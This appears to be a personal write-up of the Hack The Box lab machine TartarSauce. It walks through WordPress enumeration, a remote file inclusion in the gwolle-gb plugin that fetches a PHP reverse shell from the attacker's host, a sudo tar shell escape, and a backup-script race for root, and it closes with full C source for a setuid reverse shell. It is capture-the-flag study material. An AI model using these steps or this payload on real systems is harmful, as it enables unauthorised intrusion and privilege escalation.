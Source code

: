 ## Takeaway
- 
## Metadata
- `nikto` will identify an interesting `robots.txt` file which contains 5 entries. One of which is `/webservices/monstra-3.0.4/`. However,  `monstra`s exploit is an dead-end and the reason is explained by `0xdf` [here](https://0xdf.gitlab.io/2018/10/20/htb-tartarsauce.html)
- However, there is a `wordpress` site running under the path `/webservices` which can be identified using `gobuster`.![[Pasted image 20231228182725.png]]
- Using `wpscan --url http://10.10.10.88/webservices/wp/ --enumerate ap,t,u --plugins-detection aggresive` will reveal `gwolle-gb` plugin is running and its version is `2.3.10`. ![[Pasted image 20231228184204.png]]
	- However, If we actually navigate to `http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/readme.txt`'s `ChangeLog` section, one can identify the actual version is `1.5.3` which is vulnerable to RFI and hence RCE.![[Pasted image 20231228184431.png]]
- 
#### Attack Path
- <mark>Exploitation</mark>
	- Generate a php reverse shell and rename it to `wp-load.php`. Then, set up a web server and navigate to `http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.7:1234/` for a reverse shell callback.
- <mark>Post-Exploitation</mark>
	- <mark>www-data => onuma</mark>
		- Running `sudo -l` reveals we can run `/bin/tar` as local user `onuma` without password.![[Pasted image 20231228201547.png]]
		- According to `GTFOBins`, one can spawn a shell with the following command `tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash`.![[Pasted image 20231228201841.png]]
		- ![[Pasted image 20231228201944.png]]
	- <mark>onuma => root</mark>
		- `linPEAS` will identify two back-up files that is constantly updating.![[Pasted image 20231228233835.png]]Running `pspy` allows us to identify a file `/usr/sbin/backuperer` which is responsible for updating the above 2 files regularly.![[Pasted image 20231228234419.png]]
		- Taking a closer look at the scrip. It is doing repeating following steps for every run.![[Pasted image 20231228234432.png]]
			- 1. Create a `tar` file of random name at `/var/tmp` of  `/var/www/html` as local user `onuma`.
			- 2. Wait for 30 seconds. 
			- 3. Extract the `tar` file into a directory called `check` at `/var/tmp` as `root` user. (The script is ran by the user `root` which is evident by the ownership of file `onuma_backup_test.txt`)
			- 4. If it is different, log the difference, otherwise clean up everything.
		- Since the temporary `tar` file is owned by user `onuma`, we have a 30s window to replace it with a new `tar` file that is archived on the attacker machine and contains a payload (Source Code is below) where
			- 1. the archived folder is `/var/www/html`.(Otherwise, the script won't go the `true` branch and the extracted folder will be deleted immediately!)
			- 2. root is the owner
			- 3. `setuid` bit is on
			- 4. `others` can execute the payload
		- Later, when the modified temporary `tar` file is extracted under the context of  root. All the file permissions and ownerships will be preserved. Since the scrip went into the `true` branch, we have around 4 minutes and half to execute the payload before the `check` folder is deleted.


```C
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include <stdlib.h>

#define REMOTE_ADDR "192.168.1.100" 
#define REMOTE_PORT 4444             

# gcc -o payload payload.c -m32 -static
int main() {
    int sockfd;
    struct sockaddr_in remote_addr;

    // Create socket
    sockfd = socket(AF_INET, SOCK_STREAM, 0);
    if (sockfd == -1) {
        perror("Could not create socket");
        exit(1);
    }

    // Set up remote address structure
    remote_addr.sin_family = AF_INET;
    remote_addr.sin_addr.s_addr = inet_addr(REMOTE_ADDR);
    remote_addr.sin_port = htons(REMOTE_PORT);

    // Connect to the remote host
    if (connect(sockfd, (struct sockaddr *)&remote_addr, sizeof(remote_addr)) == -1) {
        perror("Could not connect to remote host");
        exit(1);
    }

    // Redirect stdin, stdout, and stderr to the socket
    for (int i = 0; i <= 2; i++)
        dup2(sockfd, i);

    // Attempt to set UID to 0 (root)
    if (setuid(0) == -1) {
        perror("setuid failed");
        exit(1);
    }

    // Execute /bin/sh
    char *argv[] = {"/bin/sh", NULL};
    execv("/bin/sh", argv);

    // Close the socket
    close(sockfd);

    return 0;
}
```